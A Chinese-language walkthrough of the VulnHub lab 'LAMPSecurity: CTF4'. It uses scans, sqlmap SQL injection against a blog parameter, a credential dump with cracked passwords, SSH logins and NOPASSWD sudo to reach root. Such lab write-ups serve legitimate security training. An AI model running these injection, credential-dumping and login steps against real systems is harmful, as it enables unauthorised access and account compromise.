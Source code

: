 # LAMPSecurity: CTF4

2024-6-4 https://www.vulnhub.com/entry/lampsecurity-ctf4,83/

difficulty: easy

## IP

192.168.10.191

## Scan

Open Port -> 22,25,80,631

```
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 4.3 (protocol 2.0)
25/tcp  open   smtp?
| smtp-commands: ctf4.sas.upenn.edu Hello [192.168.10.3], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.5 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp  open   http    Apache httpd 2.2.0 ((Fedora))
|_http-server-header: Apache/2.2.0 (Fedora)
631/tcp closed ipp
```

估计 80 能进入系统，gobuster 进行扫描：

```
http://192.168.10.191/images               (Status: 301) [Size: 316] [--> http://192.168.10.191/images/]
http://192.168.10.191/index.html           (Status: 200) [Size: 3479]
http://192.168.10.191/pages                (Status: 301) [Size: 315] [--> http://192.168.10.191/pages/]
http://192.168.10.191/calendar             (Status: 301) [Size: 318] [--> http://192.168.10.191/calendar/]
http://192.168.10.191/mail                 (Status: 301) [Size: 314] [--> http://192.168.10.191/mail/]
http://192.168.10.191/admin                (Status: 301) [Size: 315] [--> http://192.168.10.191/admin/]
http://192.168.10.191/usage                (Status: 301) [Size: 315] [--> http://192.168.10.191/usage/]
http://192.168.10.191/robots.txt           (Status: 200) [Size: 104]
http://192.168.10.191/inc                  (Status: 301) [Size: 313] [--> http://192.168.10.191/inc/]
http://192.168.10.191/sql                  (Status: 301) [Size: 313] [--> http://192.168.10.191/sql/]
```

/robots.txt 显示：

```
User-agent: *
Disallow: /mail/
Disallow: /restricted/
Disallow: /conf/
Disallow: /sql/
Disallow: /admin/
```

http://192.168.10.191/sql/ 发现 db.sql 备份文件，看看有没有用户凭据等信息，只看到了建表 sql：

```
use ehks;
create table user (user_id int not null auto_increment primary key, user_name varchar(20) not null, user_pass varchar(32) not null);
create table blog (blog_id int primary key not null auto_increment, blog_title varchar(255), blog_body text, blog_date datetime not null);
create table comment (comment_id int not null auto_increment primary key, comment_title varchar (50), comment_body text, comment_author varchar(50), comment_url varchar(50), comment_date datetime not null);
```

http://192.168.10.191/admin/ 发现登陆页面，需要输入用户凭据。底部看到的是 webmaster 的 cms,经过查询找到了 2 个 Password Disclosure 但是都没有利用成功，估计是把 passwd txt 文件删除了。

在仔细看看 80 对应的首页内容，看到 http://192.168.10.191/index.html?page=blog&title=Blog&id=2 这里可能存在 sql 注入，尝试用 sqlmap 进行测试，发现存在：

```
sqlmap -u 'http://192.168.10.191/index.html?page=blog&title=Blog&id=2' --level 3 -dbs --batch

available databases [6]:
[*] calendar
[*] ehks
[*] information_schema
[*] mysql
[*] roundcubemail
[*] test
```

这个 index.php 对应的库应该是 ehks，爆一下表看看：

```
sqlmap -u 'http://192.168.10.191/index.html?page=blog&title=Blog&id=2' --level 3 --batch -D ehks --tables

+---------+
| comment |
| user    |
| blog    |
+---------+

sqlmap -u 'http://192.168.10.191/index.html?page=blog&title=Blog&id=2' --level 3 --batch -D ehks -T user --dump

+---------+-----------+--------------------------------------------------+
| user_id | user_name | user_pass                                        |
+---------+-----------+--------------------------------------------------+
| 1       | dstevens  | 02e823a15a392b5aa4ff4ccb9060fa68 (ilike2surf)    |
| 2       | achen     | b46265f1e7faa3beab09db5c28739380 (seventysixers) |
| 3       | pmoore    | 8f4743c04ed8e5f39166a81f26319bb5 (Homesite)      |
| 4       | jdurbin   | 7c7bc9f465d86b8164686ebb5151a717 (Sue1978)       |
| 5       | sorzek    | 64d1f88b9b276aece4b0edcc25b7a434 (pacman)        |
| 6       | ghighland | 9f3eb3087298ff21843cc4e013cf355f (undone1)       |
+---------+-----------+--------------------------------------------------+
```

用其中的一个用户凭据登陆到后台后，发表文章出，写入 php web shell，但是发现尖括号被转义了，不能触发 php 执行。

在尝试用这几个得到的用户凭据，进行 ssh 登陆，发现 dstevens:ilike2surf、achen:seventysixers、pmoore:Homesite、jdurbin:Sue1978、sorzek:pacman、ghighland:undone1 能够进入系统。

经过查看，发现 achen 具有完全的 sudo 执行权限，所以直接可以提升到 root 权限：

```
[achen@ctf4 home]$ sudo -l
User achen may run the following commands on this host:
    (ALL) NOPASSWD: ALL

[achen@ctf4 home]$ sudo su
[root@ctf4 home]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=user_u:system_r:unconfined_t:SystemLow-SystemHigh
[root@ctf4 home]# cd /root
[root@ctf4 ~]# ls
anaconda-ks.cfg  Desktop  install.log  install.log.syslog
```

